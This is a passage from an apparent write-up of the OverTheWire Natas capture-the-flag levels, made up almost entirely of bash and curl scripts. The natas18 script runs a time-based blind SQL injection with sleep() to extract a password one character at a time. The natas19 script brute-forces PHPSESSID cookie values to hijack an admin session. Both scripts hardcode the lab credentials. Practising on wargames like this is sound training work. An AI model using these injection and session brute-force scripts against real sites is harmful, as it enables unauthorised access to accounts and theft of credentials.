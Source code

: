 ```sh
  done
done
```

## natas18

```sh
_password=""
for _i in {1..32}; do
  for _j in {A..z} {9..0}; do
    _time=$(date +%s)
    _url=$(curl \
      --silent \
      --header "Content-Type: application/x-www-form-urlencoded" \
      --user "natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw" \
      --data "username=natas18\" and hex(substring(password,$_i,1)) = hex(\"$_j\") and sleep(10+1)-- -" \
      --location "http://natas17.natas.labs.overthewire.org/index.php")
    _time=$(($(date +%s)-_time))
    
    echo -e "Try char $_j at position $_i in $_time second(s)"
    if [[ $_time -gt 10 ]]; then
        _password="$_password$_j"
        echo -e "Password: " $_password
        break
    fi
  done
done
```

## natas19

```sh
for _i in {1..640}; do
  echo -e "Tring PHPSESSID=$_i"
  url="$(curl \
    --silent \
    --user "natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" \
    --data "username=admin&password=NULL" \
    --cookie "PHPSESSID=$_i" \
    --location "http://natas18.natas.labs.overthewire.org/index.php")"
  filter=$(echo $url | grep "Password:")

  if [[ -n $filter ]]; then
    echo $url | grep --color "Password:"
      break
  fi
done
```

## natas20
